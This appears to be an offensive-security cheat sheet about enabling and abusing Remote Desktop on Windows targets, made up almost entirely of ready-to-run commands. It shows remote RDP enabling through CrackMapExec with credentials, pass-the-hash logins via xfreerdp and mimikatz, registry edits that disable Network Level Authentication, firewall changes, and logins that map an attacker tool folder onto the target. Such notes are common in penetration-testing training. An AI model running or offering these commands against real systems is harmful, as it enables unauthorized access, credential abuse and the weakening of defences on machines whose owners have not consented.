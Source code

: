 Enabling RDP and tools to use for RDP

## Crackmapexec
```bash
# Remotely enable RDP using CrackMapExec
sudo crackmapexec smb 0.0.0.0 -u user -p password -M rdp -o ACTION=enable
```

```bash
# RDP through Pass-the-Hash
xfreerdp /u:USER /d:DOMAIN /pth:NTLM /v:server.domain.local
```

```bash
# RDP using mimikatz and PtH
sekurlsa::pth /user:user /domain:domain.local /ntlm:xxxxxxxxxxxxxxx /run:"mstsc.exe /restrictedadmin"
```

### Enable Remote Desktop
#### cmd.exe
```bash
## Enable RDP from cmd.exe
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
## Disable NLA (Network Layer Authentication) requirement
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
## You can also do it through the firewall
netsh firewall set service remoteadmin enable
netsh firewall set service remotedesktop enable
```

#### Enable rdp with pwsh
```powershell
## Turn On
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0
```

### Login with rdesktop
```bash
## Tool available in kali
rdesktop 172.16.20.20 -d corporate.local -u username -p password
```

### Login with xfreerdp
```bash
## Linux tool, on kali
xfreerdp /u:username /p:password /v:172.16.20.20
## With sharing a folder
xfreerdp /u:username /p:password /v:172.16.20.20 /drive:/home/username/Desktop/Tools
```
